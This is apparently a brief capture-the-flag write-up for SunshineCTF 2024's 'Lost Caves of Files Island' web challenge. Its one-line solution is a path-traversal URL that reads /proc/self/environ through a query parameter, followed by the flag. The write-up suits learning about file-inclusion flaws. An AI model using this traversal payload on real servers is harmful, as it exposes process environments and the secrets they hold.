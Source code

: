 # Lost Caves of Files Island

Solved by: @arifpeycal

## Question:
From non-existent paths to hidden paths you must undertake a long journey in the File Island's environment to uncover the treasure that lies therein!

## Solution:
`https://islands.2024.sunshinectf.games/404?cave=adventure/../../../../proc/self/environ`

**Flag:** `sun{lf1_us1ng_proc_f1les_1s_fUN}`
